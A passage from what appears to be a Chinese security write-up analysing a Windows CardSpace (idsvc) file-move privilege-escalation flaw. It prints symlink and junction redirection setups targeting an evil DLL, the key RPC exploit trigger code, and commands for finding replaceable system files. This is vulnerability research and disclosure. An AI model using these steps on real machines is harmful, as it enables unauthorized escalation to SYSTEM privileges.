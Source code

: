 ```
      FileInfo fileInfo = new FileInfo(source + ".atomic");
      if (fileInfo.Length == 0L)
        return;
      fileInfo.MoveTo(destination);
    }
```
idsvc服务通过new SystemIdentity(true)切换回idsvc服务身份,调用AtomicFileCopy移动用户配置文件.在默认配置下%APPDATA%目录下的文件在可由当前用户可完全控制.当高权限进程对低权限进程可控制文件进行删除,移动,复制,设置属性等操作时,低权限进程均可利用此特权做一些其他操作.James Forshaw[@tiraniddo](https://twitter.com/tiraniddo)为我们提供了一套[开源工具](https://github.com/googleprojectzero/symboliclink-testing-tools),他在NTFS文件系统和Windows内部的开创性工作完成了所有繁重工作,实现了几种滥用Windows文件系统和路径解析功能的技术和利用方法.NTFS文件系统允许将一个用户控制目录挂载到另一个用户控制目录(挂载点Volume Mount Points和交叉点Junction Points),也允许通过符号链接Symbolic Links(NTFS重解析点Reparse Points)将一个目标链接至另一个,和硬链接(Hard Link)将一个用户可控制文件链接至另一个可读文件,以上方式均可导致恶意攻击者滥用高特权进程执行文件操作.对于poc中的利用,可使用如下两种方式对源文件和目标文件创建相应符号链接,第一种方式为挂载点和硬链接,这种方式只适用于win7,硬链接已被微软缓解,具体原因见[分析](http://whereisk0shl.top.park.bitcron.com/post/2019-06-08),第二种方式仍然可在win10实现利用,原理是通过任意用户可写对象目录\RPC Control链接至指定目录,然后继续链接\RPC Control目录下文件至指定文件,具体方式如下,关于符号链接的相关可以参考[上篇](https://www.4hou.com/posts/qV8D)和[下篇](https://www.4hou.com/posts/rE7B),这里不再赘述
```
第一种方式, 挂载点和硬链接
C:\workspace\mountpoint ->  C:\Users\Username\AppData\Local\Microsoft\CardSpace
源文件(挂载点) = C:\workspace\mountpoint\CardSpace.db(Fake.dll) -> C:\Users\Username\AppData\Local\Microsoft\CardSpace\CardSpace.db
目标文件(硬链接) =C:\Users\Username\AppData\Local\Microsoft\CardSpace\CardSpace.db.atomic ->  C:\Evil.dll
第二种方式,符号链接至 \RPC Control
C:\Users\Username\AppData\Local\Microsoft\CardSpace -> \RPC Control
源文件 = C:\Users\Username\AppData\Local\Microsoft\CardSpace\CardSpace.db ->\RPC Control\CardSpace.db
目标文件 =C:\Users\Username\AppData\Local\Microsoft\CardSpace\CardSpace.db.atomic -> \RPC Control\CardSpace.db.atomic
源文件 = \RPC Control\CardSpace.db ->C:\Fake.dll 
目标文件 = \RPC Control\CardSpace.db.atomic -> C:\Evil.dll
```
![查看大图](https://ftp.bmp.ovh/imgs/2020/05/ceb01a06f81a8bba.png)
从Process Monitor看出idsvc服务移动文件时并没使用模拟(Impersonate)用户身份操作,也没有判断文件的符号链接属性,就导致任意文件替换权限提升漏洞,以下是漏洞利用关键代码
```
BOOL Exploit()
{
	RpcRequest* req = (RpcRequest*)CoTaskMemAlloc(sizeof(RpcRequest));
	req->Type = L"ManageRequest";
	req->Length = 0;
	req->Data = 0;
	RpcResponse* rep = (RpcResponse*)CoTaskMemAlloc(sizeof(RpcResponse));
	UINT32* ctx = 0;
	long ret = Proc0_RPCClientBindToService(hBinding, (void**)&ctx);
	printf("Proc0_RPCClientBindToService :%d\n", ret);
	ret = Proc2_RPCDispatchClientUIRequest((void**)&ctx, req, &rep);
	printf("Proc2_RPCDispatchClientUIRequest :%08x\n", ret);
	return 0;
}
```

##### 漏洞利用分析 #####

笔者设计了一种新的基于任意文件替换的提权利用方式,原型来自[CVE-2017-0213](https://www.exploit-db.com/exploits/42020/),这种方式适用于Windows7至Windows10所有版本操作系统,但前提是要被替换的文件不是TrustedInstaller控制权限,才可以触发漏洞,原因是TrustedInstaller权限高于其他权限,如果直接执行替换操作,即使是以System权限操作结果都是拒绝访问,一般只有管理员权限或者System权限的文件才符合条件.笔者制作了一个[工具](https://gitee.com/cbwang505/TypeLibUnmarshaler)用于搜索指定目录下可替换文件,在相关项目列表中提供,也可以使用微软[SysinternalsSuite](https://docs.microsoft.com/zh-cn/sysinternals/downloads/sysinternals-suite)中的accesschk工具,启动命令行如下,最后一个参数为指定目录文件
```
//[SysinternalsSuite]工具模式,最后一个参数为指定目录文件
accesschk.exe -s -w  "nt authority\system"  c:\windows\system32\*.dll
//笔者工具中的查找模式,参数为目标路径和后缀名
MyComEop.exe  v [find path] [extension]
//深度查找模式,参数为目标路径和后缀名
MyComEop.exe  d [find path] [extension]			
```